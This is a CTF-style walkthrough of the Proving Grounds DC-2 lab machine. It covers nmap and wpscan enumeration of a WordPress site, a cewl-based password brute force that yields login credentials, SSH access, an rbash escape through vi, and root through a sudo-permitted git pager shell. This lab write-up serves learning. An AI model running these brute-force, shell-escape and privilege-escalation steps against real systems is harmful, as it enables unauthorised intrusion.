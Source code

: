 ```yaml
---
layout: default
title: DC-2
parent: Proving Grounds Play
nav_order: 17
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.194
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 14:36 EST
Nmap scan report for 192.168.160.194
Host is up (0.068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.69 seconds

```

# Enumeration

---

## 80 | HTTP

Attempting to navigate to the IP in the browser results in attempted redirect to _dc-2_

Need to make an entry in the _/etc/hosts_ file for _dc-2_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo vim /etc/hosts

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ cat /etc/hosts

192.168.160.194 dc-2

```

![index](../../../assets/images/ctfs/proving_grounds/dc-2/index.png)

Run _wpscan_ on the Wordpress site.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ wpscan --url http://dc-2 --disable-tls-checks --enumerate p --enumerate t --enumerate u

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured image
s. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'


[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

# Exploitation

---

Use Cewl to get a custom wordlist of the site

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ cewl http://dc-2 -m 5 -w cewl.txt 2>/dev/null


```

WPScan password attack with the enumerated users and _cewl_ password list.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ wpscan --url http://dc-2 --disable-tls-checks -U users.txt -P cewl.txt

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

We have valid login credentials for _jerry_ and _tom_
jerry:adipiscing
tom:parurient
{: .warn }

We can SSH to port 7744 as _tom_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ ssh tom@192.168.160.194 -p 7744
tom@192.168.160.194's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$
```

# Post-Exploitation

---

## Break out to /bin/bash Shell

We initially do not have the ability to run any commands and receive _rbash_ errors.

![error](../../../assets/images/ctfs/proving_grounds/dc-2/error.png)

We can overcome this by using _vi_ to break out to a _/bin/bash_ shell

```bash
tom@DC-2:~$ vi

# Set the "shell" variable in vi text  editor
:set shell=/bin/bash
return

# Call the "shell" variable to exit vi with a /bin/bash shell
:shell
return

# Export PATH to global distro paths
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

![set_shell](../../../assets/images/ctfs/proving_grounds/dc-2/set_shell.png)

![use_shell](../../../assets/images/ctfs/proving_grounds/dc-2/use_shell.png)

## Switch User to Jerry

```bash
# password = adipiscing; enumerated above
tom@DC-2:~$ su jerry
Password:

# export PATH
jerry@DC-2:/home/tom$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp

```

## Check Sudo -l for Jerry

```bash
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

```

## Exploit SUDO Permissions on Git Binary (Privesc Through Pagination)

![sudo](../../../assets/images/ctfs/proving_grounds/dc-2/sudo.png)

```bash
jerry@DC-2:/home/tom$ sudo /usr/bin/git -p help config


# Break out of Git
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
